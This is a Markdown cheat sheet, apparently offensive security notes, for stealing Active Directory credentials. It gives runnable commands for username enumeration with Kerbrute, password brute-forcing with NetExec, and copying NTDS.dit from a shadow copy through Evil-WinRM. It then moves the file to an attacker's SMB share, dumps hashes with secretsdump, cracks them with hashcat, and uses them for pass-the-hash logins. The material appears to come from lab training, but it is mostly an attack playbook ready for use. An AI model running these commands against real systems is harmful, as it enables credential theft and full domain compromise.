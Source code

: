 ```yaml
---
title: Active Directory NTDS Dumping
category: Post-Exploitation
tags: [active-directory, ntds, credential-dumping, impacket, evil-winrm]
tools: ['kerbrute', 'username-anarchy', 'netexec', 'evil-winrm', 'hashcat']
---
```

This file documents techniques for extracting credentials from Active Directory domain controllers, including username enumeration, NTDS.dit capture, and hash cracking. Useful after gaining DC-level access.

# Active Directory CReds and NTDS.dit

## Username dictionary attacks against AD accounts

### Creating a custom list of usernames

Create a list of usernames knowing common naming conventions --> names.txt --> automated list generator

- [Username Anarchy](https://github.com/urbanadventurer/username-anarchy)
- [Kerbrute](https://github.com/ropnop/kerbrute)

```bash
# Anarchy
./username-anarchy -i /home/ltnbob/names.txt 

# Enumerate valid names with Kerbrute
./kerbrute_linux_amd64 userenum --dc 10.129.201.57 --domain inlanefreight.local names.txt
```

### Launching a brute-force attack with NetExec

Use it in conjunction with the SMB protocol to send logon requests to the target Domain Controller.

```bash
netexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

## Capturing NTDS.dit

- [Pentest Everythng - NTDS](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/credential-access/credential-dumping/ntds)
- %systemroot%/ntds

### Fast method: Using NetExec to capture NTDS.dit

```bash
netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutil
```

### Connecting to a DC with [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)

To make a copy of the NTDS.dit file, we need local admin.

```powershell
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'

# Checking local group membership
net localgroup

# Checking user account privileges including domain
net user bwilliamson

# Creating shadow copy of C:
vssadmin CREATE SHADOW /For=C:

# Copying NTDS.dit from the VSS
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

#### Transferring NTDS.dit to attack host

```bash
# Mount local share on attack box
sudo smbserver.py -smb2support CompData /home/ltnbob/Documents/

# Back to evil
C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

#### Extracting hashes from NTDS.dit

```bash
impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL
```

## Cracking hashes and gaining credentials

Create a text file with all the hashes - or do one at a time

```bash
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

## Pass the Hash (PtH) considerations

PtH attack takes advantage of the [NTLM authentication protocol](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm#:~:text=NTLM uses an encrypted challenge,to the secured NTLM credentials) to authenticate a user using a password hash. Instead of `username`:`clear-text password` as the format for login, we can instead use `username`:`password hash`. 

```bash
evil-winrm -i 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b
```



